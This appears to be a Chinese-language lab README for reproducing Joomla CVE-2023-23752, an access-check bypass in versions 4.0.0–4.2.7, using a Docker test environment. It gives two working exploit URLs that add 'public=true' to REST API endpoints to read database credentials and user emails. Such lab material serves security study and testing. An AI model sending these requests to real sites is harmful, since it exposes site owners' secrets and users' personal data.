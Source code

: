 # Joomla权限绕过漏洞（CVE-2023-23752）

Joomla是一个开源免费的内容管理系统（CMS），基于PHP开发。

在其4.0.0版本到4.2.7版本中，存在一处属性覆盖漏洞，导致攻击者可以通过恶意请求绕过权限检查，访问任意Rest API。

参考链接：

- <https://developer.joomla.org/security-centre/894-20230201-core-improper-access-check-in-webservice-endpoints.html>
- <https://xz.aliyun.com/t/12175>
- <https://vulncheck.com/blog/joomla-for-rce>

## 漏洞环境

执行如下命令启动一个Joomla 4.2.7：

```
docker-compose up -d
```

服务启动后，访问`http://your-ip:8080`即可查看到Joomla页面。

## 漏洞复现

这个漏洞是由于错误的属性覆盖导致的，攻击者可以通过在访问Rest API时传入参数`public=true`来绕过权限校验。

比如，访问下面这个链接即可读取所有配置项，包括数据库连接用户名和密码：

```
http://your-ip:8080/api/index.php/v1/config/application?public=true
```

![](1.png)

访问下面这个链接即可读取所有用户信息，包含邮箱等：

```
http://your-ip:8080/api/index.php/v1/users?public=true
```

![](2.png)
